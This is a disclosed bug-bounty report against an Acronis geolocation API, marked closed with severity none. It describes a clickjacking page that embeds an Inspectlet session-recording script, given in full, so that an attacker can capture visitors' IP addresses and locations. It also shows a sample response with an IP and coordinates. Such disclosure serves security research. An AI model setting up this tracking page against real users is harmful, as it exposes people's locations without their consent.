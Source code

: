 # Get ip and Geo location any user via Clickjacking with inspectlet technology

## Report Details
- **Report ID**: 998555
- **URL**: https://hackerone.com/reports/998555
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-10-05T15:56:59.590Z
- **Disclosed**: 2020-10-15T18:43:10.441Z

## Reporter
- **Username**: abosala7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
Get ip and Geo location any user via Clickjacking with inspectlet technology

https://geoapi.acronis.com/?q=admin/views/ajax/autocomplete/user/a

## Steps To Reproduce
  1. go to F1015419
  2. will watch your geo data ex.
{"city":"Abu Kabir","country":{"name":"Egypt","code":"EG"},"location":{"accuracy_radius":1000,"latitude":30.7251,"longitude":31.6715,"time_zone":"Africa\/Cairo"},"region":{"name":"Sharqia","code":"SHR"},"ip":"154.237.109.156"}

  3.upload this page to any host and regsiter on https://www.inspectlet.com and add the tarcking code  to your clickjacking page to can screen recording the user Sessions

ex.
<!-- Begin Inspectlet Asynchronous Code -->
<script type="text/javascript">
(function() {
window.__insp = window.__insp || [];
__insp.push(['wid', 2060137667]);
var ldinsp = function(){
if(typeof window.__inspld != "undefined") return; window.__inspld = 1; var insp = document.createElement('script'); insp.type = 'text/javascript'; insp.async = true; insp.id = "inspsync"; insp.src = ('https:' == document.location.protocol ? 'https' : 'http') + '://cdn.inspectlet.com/inspectlet.js?wid=2060137667&r=' + Math.floor(new Date().getTime()/3600000); var x = document.getElementsByTagName('script')[0]; x.parentNode.insertBefore(insp, x); };
setTimeout(ldinsp, 0);
})();
</script>
<!-- End Inspectlet Asynchronous Code -->

  4. after victim going to clickjacking page attacker will get full geo data via  Session Recordings tab  on https://www.inspectlet.com

## Impact

Get ip and Geo location any user

## Attachments
- Clickjacking.html
